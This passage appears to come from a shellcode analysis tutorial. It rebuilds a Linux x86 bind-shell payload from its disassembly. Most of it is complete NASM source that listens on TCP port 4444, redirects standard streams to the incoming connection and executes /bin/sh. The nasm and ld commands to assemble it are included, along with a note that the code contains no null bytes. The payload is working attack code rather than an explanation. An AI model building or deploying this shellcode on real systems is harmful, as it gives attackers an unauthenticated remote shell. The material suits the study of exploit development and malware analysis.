 The next step will be to build and test the shellcode from scratch using the initial disassembly of the shellcode.

Prepare disassembly for compilation:
```nasm
global _start
section .text
_start:
    xor ebx,ebx
    mul ebx
    push ebx
    inc ebx
    push ebx
    push byte +0x2
    mov ecx,esp
    mov al,0x66
    int 0x80
    pop ebx
    pop esi
    push edx
    push dword 0x5c110002
    push byte +0x10
    push ecx
    push eax
    mov ecx,esp
    push byte +0x66
    pop eax
    int 0x80
    mov [ecx+0x4],eax
    mov bl,0x4
    mov al,0x66
    int 0x80
    inc ebx
    mov al,0x66
    int 0x80
    xchg eax,ebx
    pop ecx
stdinouterr:              
    push byte +0x3f
    pop eax
    int 0x80
    dec ecx
    jns stdinouterr
    push dword 0x68732f2f
    push dword 0x6e69622f
    mov ebx,esp
    push eax
    push ebx
    mov ecx,esp
    mov al,0xb
    int 0x80
```
Build the code:
```
$ nasm -felf32 -o shell_bind_tcp.o shell_bind_tcp.asm
$ ld -o shell_bind_tcp shell_bind_tcp.o
```
There is no need to check for nulls within the code as it can be seen from the initial disassembly that there are none.
